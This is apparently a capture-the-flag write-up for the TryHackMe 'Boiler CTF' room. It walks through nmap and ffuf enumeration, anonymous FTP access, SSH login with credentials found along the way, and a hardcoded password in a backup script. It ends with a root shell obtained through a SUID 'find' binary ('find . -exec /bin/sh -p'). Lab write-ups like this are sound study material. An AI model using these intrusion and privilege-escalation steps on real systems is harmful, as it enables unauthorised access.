 ## Boiler CTF
https://tryhackme.com/room/boilerctf2

## Enum
```
nmap -sV -sC -sT 10.10.185.145 -vv
Scanning 10.10.185.145 [1000 ports]
Discovered open port 80/tcp on 10.10.185.145
Discovered open port 21/tcp on 10.10.185.145
Discovered open port 10000/tcp on 10.10.185.145
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.18.90.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry
|_/
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: EEA082250DD48C7BA4DC1C4A4DA6E6D8
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Unix
```

```
ftp> open 10.10.185.145
Connected to 10.10.185.145.
220 (vsFTPd 3.0.3)
Name (10.10.185.145:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44702|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||49016|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
ftp> close
```

```
cat .info.txt
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

![image](https://user-images.githubusercontent.com/6504854/183457849-14cef4ac-d678-42c0-861c-4ff928e7e521.png)

![image](https://user-images.githubusercontent.com/6504854/183458086-27cbbb06-9425-46ac-b7d8-e133f86666e5.png)

![image](https://user-images.githubusercontent.com/6504854/183458171-0971f1f0-4226-4fa0-b173-004cd1844c93.png)

![image](https://user-images.githubusercontent.com/6504854/183458310-398802de-c1de-4aab-937e-af599b01cb13.png)

🏴 I had no credentials, just do another enum...
```
ffuf -u http://10.10.185.145/joomla/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.tx
t
```
```
________________________________________________

.htaccess               [Status: 403, Size: 304, Words: 22, Lines: 12, Duration: 5127ms]
.hta                    [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 5151ms]
.htpasswd               [Status: 403, Size: 304, Words: 22, Lines: 12, Duration: 5092ms]
_archive                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 445ms]
_database               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 395ms]
_files                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 385ms]
_test                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 420ms]
administrator           [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 430ms]
bin                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 463ms]
build                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 590ms]
cache                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 578ms]
components              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 619ms]
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 310ms]
includes                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 314ms]
index.php               [Status: 200, Size: 12484, Words: 772, Lines: 259, Duration: 367ms]
installation            [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 296ms]
language                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 311ms]
layouts                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 275ms]
libraries               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 302ms]
media                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 283ms]
modules                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 282ms]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 294ms]
templates               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 299ms]
tests                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 350ms]
tmp                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 324ms]
~www                    [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 293ms]
:: Progress: [4712/4712] :: Job [1/1] :: 140 req/sec :: Duration: [0:00:47] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/183459470-50505fea-73bf-48ad-8043-5386515aa148.png)

![image](https://user-images.githubusercontent.com/6504854/183459562-83c0b8aa-e996-46ef-8c00-cf12548a35f6.png)

![image](https://user-images.githubusercontent.com/6504854/183459625-8e9d8923-3b8e-465b-9358-68715ebada75.png)

![image](https://user-images.githubusercontent.com/6504854/183459701-fc091325-50b7-48d4-9dc8-b125b1282aa8.png)

![image](https://user-images.githubusercontent.com/6504854/183459816-8e294856-0dfd-4bc6-ac20-0d26b4dfc82e.png)

![image](https://user-images.githubusercontent.com/6504854/183460144-97645622-3aa0-4552-9934-4d3c5d4a939c.png)

![キャプチャ2](https://user-images.githubusercontent.com/6504854/183460887-a739d8bb-905a-480a-9728-e69636f10309.PNG)

![キャプチャ3](https://user-images.githubusercontent.com/6504854/183460899-5c719b09-1636-4ab2-9ec5-00468a953c29.PNG)

🏴 Finally, I got the credential. 

## Flag

```
ssh basterd@10.10.134.119 -p 55007
```
Nmapセンパイがまわらなかったのでポート決め打ちで... 😢

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199

$ ls
backup.sh
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#*****************
```

🏴 I got another credential for hardcoding.

```
$ su stoner
Password:

stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

🏴 Let's search some module has SUID bit.
```
stoner@Vulnerable:~$  find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
```

```
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Thank you for your time! Happy hacking 😄

🔥 🐙 🔥 🐙 🔥 🐙

涼しい部屋でアイス食べながらBoxやるのめちゃたのしい。 🍦 😋

